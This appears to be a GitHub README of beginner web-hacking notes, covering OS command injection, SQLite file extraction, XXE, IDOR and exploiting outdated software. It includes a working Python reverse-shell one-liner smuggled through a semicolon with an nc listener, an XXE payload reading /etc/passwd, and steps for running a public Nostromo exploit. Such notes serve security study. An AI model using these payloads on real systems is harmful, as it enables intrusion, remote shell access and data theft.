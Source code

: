  #                                         💪 ` Web-Vulnerabilites ` 💪




## 🥇01. OS Command Injection :

### What is OS Command Injection ?

OS Command Injection is server side  web vulnerablities where attacker execute :eyes:" system command"  like id, whoami ,uname etc os command  .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection
                                                                                       

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute :eyes: "system command "  like ls ,server will return result of ls .(Attacker will see the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seeing the result of :eyes: "system command " you must upload reverse shell on target / victim server . After uploading  reverse shell on victim server , you must be  listen uploaded shell on attacker terminal using nc command . 


### Example :
         
        ♥️  1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

           2. listen reverse shell :

                                 nc -lnvp 4242

Note : 
           
       1. Change ip according to your local host ip
        
       2. One can easily  uploaded  shell if OS command injection is occured .
              

# 🥈02. Sqlite3 or "flat-file" :

When databases stored as a file it's called "flat-file"  .The extension of those file is db . ( like webapp.db , base.db )

Process :

               1.  At first   download  " flat-file " from target web app  . ( Use dirsearch or gobuster for exposing  flat-file directory )

               2.  Then  , expose sensitve data from "flat-file "  using sqlite3 


Use Of Sqlite3 :

                       sqlite3 target_file 

                      .help 

                      .tables

                      .schema table_name

                      select * from table_name ;  // see more //
                      
                
# 🥉03. XML OR XML External Entity OR XXE :

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data.

#### :-1:Disadvantage of XML attack :
                                           
                                           1. Cause of  Denial of Service (DoS) attack

                                           2. Could use XXE to perform Server-Side Request Forgery (SSRF) 

                                           3.  XXE may even enable port scanning and lead to remote code execution.

#### There are Two types of XXE attacks :
                          
                                                      1. in-band xxe
                                                      
                                                      2.out-of-band xxe

1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.


##### :pray:Note : For better understanding you need to learn basic of XML language 

### 👀 XXE Payload :

Now we'll see some XXE payload and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

         <!DOCTYPE replace [<!ENTITY name "feast"> ]>
         <userInfo>
           <firstName>falcon</firstName>
           <lastName>&name;</lastName>
         </userInfo>



As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

         <?xml version="1.0"?>
         <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
         <root>&read;</root>

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.


# 🔊04.Broken Access -IDOR :

###### IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. IDOR is a type of access control vulnerability.

For example, let's say we're logging into our bank account, and after correctly authenticating ourselves, we get taken to a URL like this https://example.com/bank?account_number=1234. On that page we can see all our important bank details, and a user would do whatever they needed to do and move along their way thinking nothing is wrong.

There is however a potentially huge problem here, a hacker may be able to change the account_number parameter to something else like 1235, and if the site is incorrectly configured, then he would have access to someone else's bank information.


### 👁️ Conclusion of IDOR : When  you change the value of (get /post) parameter  , you will see other user information .



# 05. Components With Known Vulnerabilities :

Occasionally, you may find that the company/entity that you're pen-testing is using a program that already has a well documented vulnerability.

For example, let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on exploit-db.


Process :

              1. Analize target website and  findout version , name etc of target platform .

             2. Then , checkout those versuon ,name are vulnerable or not  via exploit db ,rapid7  etc .

             3. If target webiste version is vulnerable  you can easily hacked your targer website via those process .

Example :

Suppose  , Our  target website   like this :


After analyzing  , we realize that  our target  website create by "Nostromo"  .  Ok  , thats great  .Now ,follow our previous process :

1. Search  "Nostromo" on exploit db 

2. find out specific exploitation according to our target version (Here  , nostromo 1.9.6 )

3. Then , Download exploit file and  execute it

Command :
          download_file.py target_url  id 

Here , you can use any linux os command instead of id 
